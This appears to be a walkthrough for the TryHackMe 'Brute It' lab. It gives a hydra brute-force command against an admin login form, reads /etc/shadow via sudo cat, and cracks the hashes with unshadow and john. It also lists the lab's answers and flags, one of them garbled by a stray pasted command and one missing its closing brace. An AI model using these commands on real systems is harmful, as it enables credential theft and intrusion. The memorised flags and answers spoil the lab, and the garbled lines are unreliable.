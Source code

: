# Brute It-Bruteforce login pages&Sudo cat privilege escalation

```
export IP=10.10.212.108
```
```
user:admin
pass:xavier
```

# Material needed

1. Interesting directory: /admin

2. Bruteforce login page

```
hydra -l admin -P wordlist/rockyou.txt $IP http-post-form "/admin/index.php:user=admin&pass=^PASS^:Username or password invalid"
```

3. Privilege escalation

```
sudo cat /etc/shadow
```

4. crack password

```
unshadow passwd shadow > password
john --wordlist=/root/Documents/wordlist/rockyou.txt password
```

# Tasks

1. Search for open ports using nmap. How many ports are open? 2

2. What version of SSH is running? OpenSSH 7.6p1

3. What version of Apache is running? 2.4.29

4. Which Linux distribution is running? Ubuntu

5. Search for hidden directories on web server. What is the hidden directory? /admin

6. What is the user:password of the admin panel? admin:xavier

7. Crack the RSA key youunshadow passwd shadow > password found. What is John's RSA Private Key passphrase? rockinroll

8. user.txt

```
THM{a_password_is_not_a_barrier}
```

9. web flag

```
THM{brut3_f0rce_is_e4sy
```

10. What is the root's password? football

11. root.txt

```
THM{pr1v1l3g3_3sc4l4t10n}
```